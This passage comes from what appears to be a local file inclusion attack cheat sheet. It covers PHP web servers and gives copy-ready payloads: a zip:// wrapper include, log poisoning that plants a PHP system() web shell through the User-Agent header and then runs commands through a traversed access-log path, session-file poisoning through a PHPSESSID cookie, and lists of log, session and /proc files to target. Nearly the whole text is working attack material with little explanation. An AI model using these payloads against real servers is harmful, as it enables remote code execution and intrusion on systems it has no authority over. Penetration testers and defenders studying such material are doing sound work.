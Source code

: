 ```
# Zip wrapper
zip://path/to/uploaded/file.zip#phpscript.php
```

### Log Poisoning (Log File Inclusion)

1. Inject PHP code into log files
```
# User-Agent poisoning
User-Agent: <?php system($_GET['cmd']); ?>

# Then access log file
http://example.com/index.php?page=../../../var/log/apache2/access.log&cmd=id
```

2. Common log file locations
```
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/httpd/access_log
/var/log/httpd/error_log
/var/log/nginx/access.log
/var/log/nginx/error.log
/proc/self/environ
/proc/self/fd/X
```

### Session File Inclusion

1. Inject PHP code into session variable
```
# Set PHP code in a cookie or request parameter used in session
Cookie: PHPSESSID=<?php system('id'); ?>

# Then include the session file
http://example.com/index.php?page=../../../var/lib/php/sessions/sess_[SESSIONID]
```

2. Common session file locations
```
/var/lib/php/sessions/sess_*
/tmp/sess_*
/tmp/sessions/*
C:\Windows\Temp\*.php*
```

### /proc/ Exploitation

```
/proc/self/environ
/proc/self/cmdline
/proc/self/fd/0
/proc/self/fd/1
/proc/self/fd/2
/proc/self/maps
```
